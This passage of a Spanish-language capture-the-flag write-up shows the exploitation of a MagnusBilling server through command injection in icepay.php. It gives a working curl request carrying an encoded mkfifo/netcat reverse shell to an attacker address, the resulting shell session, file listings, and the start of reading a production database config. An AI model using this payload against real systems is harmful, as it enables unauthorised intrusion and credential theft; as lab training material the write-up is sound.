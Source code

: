 ## Explotación
Ponemos un **Netcat** a la escucha por el puerto *443*, seguidamente ejecutamos el siguiente comando y conseguiremos una conexión interactiva con la máquina víctima:
```console
curl 'http://10.10.50.40/mbilling/lib/icepay/icepay.php?democ=iamhacked;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.9.1.119%20443%20%3E%2Ftmp%2Ff;#'
```

#### Reverse shell
```console
nc -nvlp 443
listening on [any] 443 ...
connect to [10.9.1.119] from (UNKNOWN) [10.10.50.40] 49718
sh: 0: can't access tty; job control turned off
$ id
sh: id: not found
$ which id
/usr/bin/id
$ /usr/bin/id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
$ 
```

Anteriormente vimos que ganamos acceso con el usuario *asterisk*, también sabemos que existe el servicio abierto en el puerto *5038*, tal y como vimos con **nmap**.

Vemos que tenemos acceso a los ficheros web:
```console
$ ls -lna
total 80
drwx------ 2 1001 1001  4096 Mar  9 06:30 .
drwx------ 9 1001 1001  4096 Feb 27  2024 ..
-rw-r--r-- 1 1001 1001     0 Mar  9 06:37 iamhacked
-rwx------ 1 1001 1001   768 Feb 27  2024 icepay-cc.php
-rwx------ 1 1001 1001   733 Feb 27  2024 icepay-ddebit.php
-rwx------ 1 1001 1001   736 Feb 27  2024 icepay-directebank.php
-rwx------ 1 1001 1001   730 Feb 27  2024 icepay-giropay.php
-rwx------ 1 1001 1001   671 Feb 27  2024 icepay-ideal.php
-rwx------ 1 1001 1001   720 Feb 27  2024 icepay-mistercash.php
-rwx------ 1 1001 1001   710 Feb 27  2024 icepay-paypal.php
-rwx------ 1 1001 1001   699 Feb 27  2024 icepay-paysafecard.php
-rwx------ 1 1001 1001   727 Feb 27  2024 icepay-phone.php
-rwx------ 1 1001 1001   723 Feb 27  2024 icepay-sms.php
-rwx------ 1 1001 1001   699 Feb 27  2024 icepay-wire.php
-rwx------ 1 1001 1001 25097 Mar 27  2024 icepay.php
-rw-r--r-- 1 1001 1001     0 Sep 13 00:17 null
$ 
```

Encontramos un fichero web que incluye la configuración de conexión con la base de datos:
```php
asterisk@Billing:/var/www/html/mbilling/protected/config$ cat main_production.php
<?php
/**
 * =======================================
 * ###################################
 * MagnusBilling
 *
 * @package MagnusBilling
 * @author Adilson Leffa Magnus.
 * @copyright Copyright (C) 2005 - 2023 MagnusSolution. All rights reserved.
 * ###################################
 *
 * This software is released under the terms of the GNU Lesser General Public License v2.1
 * A copy of which is available from http://www.gnu.org/copyleft/lesser.html
```